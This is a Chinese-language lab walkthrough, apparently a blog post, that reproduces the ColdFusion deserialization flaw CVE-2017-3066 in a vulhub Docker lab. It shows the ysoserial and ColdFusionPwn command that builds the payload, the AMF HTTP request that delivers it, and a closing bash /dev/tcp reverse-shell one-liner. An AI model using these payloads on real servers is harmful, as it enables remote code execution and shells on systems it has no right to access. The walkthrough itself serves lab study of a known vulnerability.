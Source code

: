 ### Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）



### 漏洞原理

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe  ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update  11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html

## 复现漏洞

### 启动环境

进入路径为

```
cd /root/vulhub/coldfusion/CVE-2017-3066
1
```

搭建及运行漏洞环境：

```
docker-compose build && docker-compose up -d
1
```

此本安装环境需要大概1G+的数据下载，网络不好的起来走动走动吧:)
![1](Adobe ColdFusion反序列化漏洞CVE-2017-3066/1.png)
 环境启动成功后，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。
![2](Adobe ColdFusion反序列化漏洞CVE-2017-3066/2.png)

## 漏洞复现

### 生成POC

使用[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC。
 [下载ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn/releases/download/0.0.1/ColdFusionPwn-0.0.1-SNAPSHOT-all.jar)
 [下载ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
 【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字

```
java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser
1
```

【再注意】上面的命令在Win10下我没有执行成功，错误提示为`错误: 找不到或无法加载主类 com.codewhitesec.coldfusionpwn.ColdFusionPwner`。在Kali成功生成了?

### 发送POC

生成poc.ser文件后，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为`application/x-amf`：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
1234567891011
```

![3](Adobe ColdFusion反序列化漏洞CVE-2017-3066/3.png)

### 发送POC内容

由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200
![4](Adobe ColdFusion反序列化漏洞CVE-2017-3066/4.png)
 正确发送方式为：
 右击选择**Paste From File**，上传**poc.cer**文件
 ![5](Adobe ColdFusion反序列化漏洞CVE-2017-3066/5.png)

 【感谢豆老师?的纠错，以及科普编码问题】?
 再到`Raw`界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择`Copy to File`保存
![6](Adobe ColdFusion反序列化漏洞CVE-2017-3066/6.png)

#### 检验POC

##### 进入容器

###### 通过DockerID进入容器

```
docker exec -it 容器ID /bin/bash  
1
```

###### 查看容器ID

```
docker ps
1
```

![7](Adobe ColdFusion反序列化漏洞CVE-2017-3066/7.png)

###### 通过Docker名字进入容器

```
docker-compose exec 容器名字 bash
1
```

比如本次环境中是：

```
docker-compose exec coldfusion bash
1
```

##### 查看/tmp/

```
ls /tmp/
1
```

发现`/tmp/success`已成功创建：
![8](Adobe ColdFusion反序列化漏洞CVE-2017-3066/8.png)
 将POC改成[反弹命令](http://jackson.thuraisamy.me/runtime-exec-payloads.html)，成功拿到shell：
![9](Adobe ColdFusion反序列化漏洞CVE-2017-3066/9.png)

### 反弹Shell

#### 格式

```
bash -i >& /dev/tcp/ip/port 0>&1
1
```

#### 例子

比如监听192.168.236.138的333端口

```
bash -i >& /dev/tcp/192.168.236.138/333 0>&1
```